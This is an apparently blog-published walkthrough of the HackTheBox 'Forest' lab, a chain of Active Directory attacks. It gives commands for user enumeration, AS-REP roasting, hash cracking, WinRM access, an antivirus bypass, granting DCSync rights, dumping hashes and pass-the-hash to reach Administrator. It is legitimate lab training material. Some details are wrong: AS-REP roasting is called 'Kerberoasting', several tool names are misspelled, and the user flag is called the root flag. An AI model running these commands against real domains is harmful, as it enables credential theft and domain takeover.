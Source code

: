 ```yaml
---
title: 'HTB - Forest'
author: paincakes
date: 2023-03-16 20:55:00 +0800
categories: [HTB, Easy]
tags: [AD, htb-walkthrough]
---
```



![Box-Info](https://paincakes.sirv.com/Images/HTB/Forest/Info.png)

# Summary
The **Forest** machine of hack the box was an easy leveled box which provided very good concept about user enumeration and Kerberoasting the users to get the Winrm shell of a user. That user can also be used to extract the data for bloodhound which reveals a misconfigured permission that can be used to give a user DCSync capabilities which can be used to dump hashes for the administrator user and get a shell as the admin.


## NMAP Scanning

Let’s start with scanning the IP with NMAP to enumerate open ports and the services running on the host.

![NMAP](https://paincakes.sirv.com/Images/HTB/Forest/nmap.png)

Looking at the nmap result, we can clearly see that this an Active Directory challenge. Before starting any further enumeration or analysis, don't forget to add '10.10.14.10 htb.local' on your hosts file. (/etc/hosts).



## Username Enumeration
Simply scanning the Host with `enum4linux` tool, I was able to obtain a list of users in the AD Network.

`enum4linux -a htb.local` 

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/enum4linux.png)
![Forest](https://paincakes.sirv.com/Images/HTB/Forest/users.png)

After obtaining the list of usernames, I filtered out the **HealthMailBox** and **SM** users for now and formatted the list in sprayable format.

![enum4linux](https://paincakes.sirv.com/Images/HTB/Forest/finalusers.png)

## Kerberoasting
Some users account does not require Kerberos pre-authentication and Kerberoasting is an attack against Kerberos for those accounts. For this attack we can use impacket’s `GetNPUuers.py` tool against the user list we just made.

`GetNPUsers.py <domain>/ -no-pass -userfile <usersfile> -dc-ip <ip> | grep -v
‘KDC_ERR_C_PRINCIPAL_UNKNOWN’`

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/preauthdis.png)

From the Kerberoasting attack we were able to obtain the TGT for **svc-alfresco** user. Now we can save the TGT and crack it using `hashcat` to obtain the password.

`hashcat -m 18200 <hashfile> <wordlist>`

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/hashcataes.png)

After a while, `hashcat` will crack the password for **svc-alfresco** user.

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/crackedaes.png)

Now we have obtained the credentials for svc-alfresco user. (svc-alfresco : s3rvice)

## Evil-WinRM

Now since we have the complete credentials of svc-alfresco user, we can login to winrm service using `evil-winrm tool`.

`evil-winrm -u ‘svc-alfresco’ -p ‘s3rvice’ -i <ip>`

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/evil-winrm.png)

We can find the root flag in the Desktop directory of this user.

## Privilege Escalation

### Using BloodHound
We can use `bloodhound-python` tool to collect the data and information for `BloodHound` tool for analyzing the misconfigurations in permissions of accounts in the Active Directory. The extracted data can be uploaded in `BloodHound`. Learn more about the Tool from [here](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound).

After uploading the data and under “Queries”, I’ll click “Find Shorter Paths to Domain Admin”, and get the following graph:

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/bloodhound.png)

From the graph we can see that there are two jumps needed to get from my current access as **svc-alfresco** to **Adminsitrator**, who is in the Domain Admins group. One of the paths shows that the **Exchange Windows Permissions** group has **WriteDacl** privileges on the Domain. The **WriteDACL** privilege gives a user the ability to add ACLs to an object. This means that we can add a user to this group and give them **DCSync** privileges.

### Exploiting The Excessive Privilege
 
```
net user <username> <password> /add /domain
net group “Exchange Windows Permission” <username> /add
net localgroup “Remote Management Users” <username> /add
```

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/netusers.png)

Now we need to use PowerView.ps1 and import it our current session. But before that we need to use Bypass-4MSI command to evade the AV and Defender.


![Forest](https://paincakes.sirv.com/Images/HTB/Forest/bypass.png)

### Using PowerView

Upload the `PowerView.ps1` script using the upload function in `evil-winrm` and Import it on the session. The script can be downloaded from [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

After importing the PowerView.ps1 script, we can now use the Add-ObjectACL with the user we created and give the user DCSync rights.

```
$pass = convertto-securestring ‘<password>’ -asplain -force
$cred
=
new-object
system.management.automation.pscredential(‘htb\<username>’,
$pass)
Add-ObejctACL -PrincipalIdentity <username> $cred -Rights DCSync
```

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/DCSync.png)

### Using Secretsdump
Now we gave our user the DCSync right, we can use the impacket’s secretsdump.py script as that user, which can used to will reveal the NTLM hashes for all the domain users and also the administrator.

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/DCSync.png)

Since the NTLM hash of the **Administrator** user is revealed, we can crack it to obtain the password or simply use **pass-the-hash** method using `psexec` to get the shell as admin user.

`Python psexec.py administrator@<ip> -hashes <hash>`

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/root.png)

